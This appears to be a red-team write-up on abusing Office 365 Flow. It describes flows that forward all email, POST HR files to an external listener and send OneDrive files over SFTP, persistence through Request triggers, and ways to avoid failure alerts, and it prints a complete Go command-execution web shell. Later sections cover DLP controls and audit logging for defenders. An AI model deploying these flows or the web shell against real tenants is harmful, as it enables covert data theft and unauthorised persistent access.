flow
Office365's built in version of If This Then That (IFTT)
What is it?
Flow allows you to automate all kinds of things. The most powerful feature is how Flow is hooked into almost every single application within Office 365.
Flow leverages 'Connectors' that allow applications to be easily connected together. Connectors consist of two parts; triggers and actions. Triggers are what start a flow and actions are the things that Flow is programed to do.
For example, the flow below leverages the 'One Drive' connector with the 'When a file is created' trigger to detect when a file has been created in the Documents folder. WHen a new file is created it then moves on to the 'HTTP' connector and leverages the action to send a POST request to a web server.
The HTTP connector pulls dynamic data from the One Drive connector so it can send the file name, file content, and other various attributes about the file to the listening web server.
Event Triggers
As previously discussed event triggers are listeners. They are the things that kick off a flow.
Some of the more dynamic and useful triggers are:
- Request
- Schedule
- When document is created
Request
The triggers within the Request connector is my favorite. The tirgger sets up a listening URL and accepts requests just like any other API. During the setup process a json schema is defined and all of the actions leverage data passed in through the API call. More details on this connector later.
The Office 365 Outlook triggers can start for a variety of reasons. Some are going to be more useful than others. One of the more useful things to do is to start the flow as soon as a new email arrives.
Schedule
Much like it sounds the Schedule trigger will run based off a pre-defined time. Think of it as a cron job or a scheduled task within Office365. In the example below the trigger fires every 5 minutes. The trigger is fairly simple to setup. The only required fields are to define the interval and frequency. Within the advanced options, start time and time zone can be filled in.

When a Document is Created
This trigger exsists for both OneDrive and for SharePoint. The trigger for OneDrive needs only a folder name.
The trigger for SharePoint needsa little more detail, but not much. This trigger needs a SharePoint site and the folder to monitor.
I feel its pertinent to add you can only access SharePoint sites and folders which you (or the account being leveraged) has access to.
Others
Other connectors you may find to have useful triggers:
- Twitter - When a tweet is posted
- RSS - WHen a feed is published
- Gmail - WHen a new email arrives
- DropBox - When a file is created
- FTP - WHen a file is created
- Instagram - When new media is uploaded
- Google Contacts - When a contact is modified
- SQL - When an item is created
- and many, many, many more
Data Exfiltration
Flow has hundreds of connectors. Many of them can be used for data exfiltration. With the help of a purpose built flow, data can be exfiltrated automatically. Below are a few examples that are designed to exfiltrate data.
Keep in mind that these are just examples and they can be mixed and matched to meet whatever needs you may have.
Forward a Copy of All Emails
One popular way of persistent data exfiltration is to send a copy of all incoming emails to an outside email address by way of an outlook rule.
This technique is popular enough that defenders are now keen to this methodology and make an active effort to check for and discover the malicious rules. Another way to accomplish this is to leverage Flow.
The flow below takes an email that arrives in the 'Inbox' and sends it to an external address of our choice.
The next step of this flow shouldbe to delete the email from the sent folder. I'll let you figure out the best way to accomplish this.
New SharePoint File -> HTTP POST
Another way to move data out of an organization is by use the HTTP connector. The flow below leverages the SharePoint connector to act as the trigger when a file is created. The trigger is monitoring the jellypark SharePoint server, specifically the hr site.
Within the site, the trigger is monitoring the employee-records folder. Any time a new file is created the flow begins and moves into the action section.
This flows action is to use the HTTP connector to make a POST request to an external website (hxxps://listener.somelisteningwebsite.com). The body of the post request is very important. it is JSON data which contains two dynamic variables depending on the file created in the trigger.
The value of the 'File name' variable is the name of the file created and the 'File Content' variable is filled with the contents of the file. All of this data is wrapped up into JSON so that when it arrives at the listener website it can be easily recontrusted.
New OneDrive File -> SFTP
Much like the SharePoint trigger waiting for a new file to be created within a folder, the OneDrive trigger for new file creation works the same way. When configuring the 'When a file is created' trigger the only option required is to set the folder to monitor.
For the action portion of this flow we are going to leverage the SFTP connector to send the file to a remote server. Before we can use the connector the SFTP connection needs to be defined. This connection can be used for multiple flows. At minimum to establish the connection it needs:
- A Name
- Server Address
- User Name
Other options such as port, password, and private key can also be defined. The image below shows an example SFTP connection.

Upon clicking the 'Create' button Microsoft will validate the connection to make sure it works. If it fails to connect it will throw an error.
Now that the connection is valid we can finish defining the 'Create file' action. The action requires a folder path on the remote server, a file name, and file content. File name and File content can both be dynamically generated based on the output from the trigger.
Below is a fully functional flow that detects when a file is created in the root folder of the users OneDrive and then sends it to a remote server via SFTP.
Persistence
In the previous section we covered some interesting ways to dynamically send data out of an organization. What if instead of dynamically sending data there was a desire to have more control over someones Office 365 account even if they change there password.
The request trigger perfectly helps to facilitate this capability. Once completed the request trigger provides a URL that can be used to start the flow. The URL will looks similar to this one:
https://prod-57.westus.logic.azure.com:443/workflows/.../triggers/manual/paths/invoke?api-version=2016-06-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=...The listener supports multiple request types including: Get, Put, Post, Patch, Delete. Custom request types can also be used.
The listener is waiting for JSON data. The easiest thing that I've found is to paste in a sample JSON payload and let Flow automatically format it in a way that it understands.

Doing it this way allows for Flow to understand and read the Keys and allow these fields to be select-able in the action triggers later within the flow. Flow will convert the JSON into something like this:

Now that the trigger is defined a connector needs built. For this example we're going to use the One Drive connector:

The variables are all defined based on the content that is passed from the JSON request. Once saved this Flow allows us to send a POST request to a custom Azure URL and based upon the data we pass in, it will create a file in one drive where ever we want it to go, with any name we want, and filled with our content.
With the right connectors this allows an attacker to establish persistent access to pretty much someones entire Office 365 account. This access lives on after a password has been changed.
Internal Network
Crossing the boundary from Office 365 to the internal network can be accomplished a couple of different ways with Flow. The next couple of sections cover how this can be accomplished.
OneDrive
The One Drive connector allows us to read and write files. In most enterprises the users profile is sync'd between One Drive and there local machine. By having access to One Drive we as attackers can write files directly to a users desktop.
Once the files are in place a bit of social engineering and we have access to the internal network.
Data Gateway
Data Gateway's are fascinating...currently holding on releasing any additional information for personal reasons.
package main
import (
"encoding/base64"
"fmt"
"log"
"net/http"
"os/exec"
"strings"
)
func runCommand(w http.ResponseWriter, r *http.Request) {
//Get the Parameter
//expected url is http://url/?cmd=cHdk
b64cmd := r.URL.Query()["cmd"]
data := string(b64cmd[0])
//Decode the b64 string error
sDec, err := base64.StdEncoding.DecodeString(data)
if err != nil {
return
}
//stringify, split, and execute the command
cmd := string(sDec)
args := strings.Split(cmd, " ")
cmdOutput, err := exec.Command(args[0], args[1:]...).Output()
if err != nil {
//panic("ruh roh")
return
}
//return the output
fmt.Fprintf(w, string(cmdOutput))
}
//Set listening port, and handle incoming requests
func handleRequests() {
http.HandleFunc("/", runCommand)
log.Fatal(http.ListenAndServe(":5000", nil))
}
func main() {
handleRequests()
}Security Controls
Data Loss Prevention
Starting at the E3 license level Flow administrators have the ability to introduce DLP policies. These policies can be used to prevent various connectors from being paired together. The way it works is by classifying data at a high level. Connectors are split between 'Business Data Only' and 'No Business Data Allowed'.
When people create new flows they will be unable to mix connectors from one group with connectors from the other.
For example in the image below the OneDrive and SharePoint connectors can be used together but neither could be used the Salesforce or Dynamics 365 since they are in seperate groups.

Logging?
Good news, logging does exist. Bad news, its not the greatest. In the Office365 Admin 'Security & Compliance' portal there is an option to perform an audit log search. This search provides the ability to search logs across the entire Office 365 platform.
Flow Event Types
Searching for Flow within the 'Activities' drop down shows seven different event types that can be searched:
| Event | Event Description |
|---|---|
| Created flow | Shows events related to a flow being created. |
| Edited flow | Events related to an existing flow being edited. |
| Deleted flow | These events occur when a flow has been removed. |
| Edited flow permissions | If a permission to the flow has been changed. This can occur if a flow is shared to another user. |
| Deleted flow permissions | If a permission has been removed. This could occur when somones access to a flow has been revoked. |
| Started a flow paid trial | These events occur if a user starts a trial to gain access to premium connectors. |
| Renewed a flow paid trial | This event occurs when a paid trial has been continued. |
Event Details
Unfortunately the event details are a bit sparse. In most cases the event shows time, activity type, user, ip and if it was successful.
Clicking on 'More information' does show a bit more information but the real details of the Flow are still a mystery.
The image above shows which connectors which were used, which is valuable information to have. The downside is that the intent of the Flow is still obscured from us, even in after looking at the details of the audit log.
Flow Details URL
At first when I saw the page for details I thought it was going to display all of the nitty gritty details of the flow. I expected to see each parameter for the connectors. Unfortunately the details page shows details about who owns the flow, who its been shared to, and if its currently in the 'on' or 'off' state.
Currently there is no way to get the details surrounding exactly what a flow is doing outside of impersonating the user and viewing there flows one at a time.
Quotas
In the Flow admin center under the 'Tenant' menu there is an option to see current usage statistics for Flows across the entire Office tenant.
A report can be downloaded that shows some useful information about the environment. To download the report you have to request it, then once the data is pulled together a download link is provided.
Much like viewing flow details anywhere else in Office365 the CSV provides the name of the flow, who owns it, environment, environment Id, and the current state of the Flow. The one new piece of information that is shown is the number of runs consumed.
Examining the number of runs consumed could be a indicator of a Flow being used for malicious purposes. It could also just be a flow that runs on a regular basis. Pivoting off this field provides some direction where previously there was no direction or way to begin to find potentially malicious flows.
Fun Nuances
Import Pre-Built Flows
Flows can be built in one tenant, saved, exported and then later imported with ease to another account. The account can be in another tenant.
Disabled Accounts
Once a flow is created, it will continues to run even in the event that the account becomes locked or otherwise disabled.
Special Connectors
In the security controls section we discussed DLP controls that prevent certain connectors from mingling with others. As of writing this, there are some special connectors that cannot be added to a policy through the web interface.
The HTTP, Request, and custom connectors are all apart of this group. Interestingly enough, these three connectors are probably the most dangerous.
As of January 25, 2019 it became possible to put controls around these connectors. There are two ways to do so. The first is to use the Flow powershell cmdlet. This is not something that many tenant admins will do. The second option is to import a template into flow that will define a policy for you. Again, this is not something that many admins will do.
For more information and how to implement controls around these connectors check out this announcement from Microsoft: https://flow.microsoft.com/en-us/blog/introducing-http-and-custom-connector-support-for-data-loss-prevention-policies/
Flow Failures
If a flow fails encounters and error while it is processing it exits much like any other program that encounters an error while trying to execute. Unlike other programs when a Flow fails it sends a failure notification to the owner of the flow. This is a really helpful feature if flows are being leveraged for business tasks. If however, the flow is being used for malicious purposes this is less than ideal behavior.
The easiest way to circumvent this behavior is to ensure the flow never fails. The easiest way to accomplish this is to introduce error handling through try/catch blocks.